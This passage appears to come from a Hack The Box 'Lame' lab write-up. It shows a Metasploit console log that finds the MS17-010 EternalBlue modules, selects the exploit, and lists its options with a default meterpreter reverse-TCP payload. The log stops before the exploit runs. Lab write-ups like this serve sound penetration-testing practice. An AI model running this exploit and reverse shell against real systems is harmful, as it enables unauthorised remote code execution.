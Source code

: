 ````
Shellcodes: No Results
```
````



## EternalBlue

````
```log
[Oct 06, 2024 - 18:45:34 (CEST)] exegol-htb_lame /workspace # msfconsole -q
msf6 > search ms17-10
[-] No results from search
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.0.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

````